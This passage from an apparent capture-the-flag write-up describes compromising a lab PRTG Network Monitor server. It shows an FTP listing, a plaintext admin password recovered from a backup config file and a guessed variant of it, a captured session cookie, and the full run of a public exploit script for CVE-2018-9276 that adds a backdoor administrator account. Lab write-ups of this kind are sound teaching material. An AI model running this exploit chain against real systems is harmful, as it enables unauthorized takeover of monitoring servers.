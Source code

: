 07-01-19  12:17AM       <DIR>          Logs (Web Server)
07-01-19  12:22AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
07-01-19  04:28AM              1723418 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
{% endhighlight %}

In the file "PRTG Configuration.old.bak", we have a plaintext credential.<br>
But to login, we need to change the password to "PrTg@dmin2019"
{% highlight shell %}
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
{% endhighlight %}

Then, launch the Burp suite and login to PRTG console.<br>
This is because we have to grab the authenticated cookie to run the exploit code.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-07-01/2019-07-01-12-29-40.png)

After that run the exploit with the cookie.<br>
This creates a new admin user "pentest:P3nT3st!".
{% highlight shell %}
root@kali:~# ./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0ZDRjY2MjdBLUMzNjEtNEY0Mi1CQ0JGLUU3NUEzQzlBRDZDMX0%3D"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
{% endhighlight %}